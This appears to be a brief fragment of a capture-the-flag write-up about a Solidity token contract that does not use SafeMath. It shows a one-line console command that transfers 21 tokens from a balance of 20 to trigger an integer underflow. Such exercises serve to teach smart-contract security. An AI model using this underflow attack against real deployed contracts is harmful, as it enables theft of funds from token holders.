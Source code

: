 No safeMath was used in this contract, so we can attack it using underflow.
We start with 20 tokens.
```
await contract.transfer('0x72bBe2Fb4C7d7A514Ea97C83A183b79200544cce', 21)
```
